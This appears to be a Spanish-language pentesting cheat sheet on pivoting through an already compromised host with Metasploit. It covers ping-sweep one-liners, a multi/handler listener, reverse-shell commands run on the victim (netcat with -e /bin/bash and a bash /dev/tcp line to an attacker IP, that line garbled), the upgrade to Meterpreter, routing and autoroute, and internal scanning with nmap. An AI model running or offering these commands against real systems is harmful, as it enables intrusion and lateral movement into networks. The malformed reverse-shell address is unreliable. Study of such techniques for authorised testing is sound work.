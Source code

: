 Antes es necesario ver si el activo cuenta con otra interfaz de red.

```
ifconfig
```

Una vez tengamos una interfaz de red necesario ver si existe algún servicio afiliado a la IP en cuestión.
```
ss -natup
```

Enumeración de host en base a una línea de bash:

https://www.rubyguides.com/2012/02/cli-ninja-ping-sweep/

```
 Linux
 
 for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done

 Windows
 
 for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.
```

-----

Una vez que tengamos la shell tenemos que tenerla en [[metasploit]] y es necesario aplicar el siguiente comando:

```
msfconsole

use multi/handler

set LHOST IPAtacante

set LPORT PuertoAtacante
```

En la máquina víctima (antes ya habiendo tenido la shell) aplicamos la reverse shell:

```
nc IPAtacante PuertoAtacante -e /bin/bash

o

bash -c "bash -i >&/dev/tcp/172.20.10.4/28/4545 0>&1"
```

Ahora ya teniendo la shell es necesario activar la shell meterpreter

```
use shell_to_meterpreter

set LHOST IPAtacante

set LPORT PuertoAtacante

set SESSION 1 (número de session donde se tenga la shell normal)

run
```

----

### Método manual con Metasploit para hacer routeo

Una vez con una shell meterpreter es necesario que veamos si existe alguna ruta con el siguiente comando

```
route
```

De no tener es necesario agregar el segmento de red de la segunda interfaz de red que tiene el activo ya comprometido de la siguiente forma: 

```
route add 192.168.100.0/24 2
```

- El /24 hace referencia al segmento de red
- El 2 hace referencia a la sesión meterpreter que se utilizará

Luego es necesario aplicar el siguiente comando:

```
route
```

Eliminar una ruta: 

```
route del 192.168.100.0/24 2
```

- El /24 hace referencia al segmento de red
- El 2 hace referencia a la sesión meterpreter que se utilizará

-----

### Método manual con Metasploit para hacer routeo

Si queremos que se pueda realizar el routing más rápido se puede utilizar el siguiente módulo de [[metasploit]]

```
use multi/manage/autoroute

set SESSION 1 (session donde se tiene la shell meterpreter)

run
```

---

Una vez que se tiene routeado el activo es necesario que podamos intentar reconocer los activos de la interfaz de red de la siguiente forma con [[nmap]]

```
nmap -sn 192.168.100.0/24
```

En caso no funcione probar con la enumeración en una línea o con un escaner de puertos del propio metasploit:

```
use scanner/portscan/tcp

set RHOSTS 192.168.100.21
```
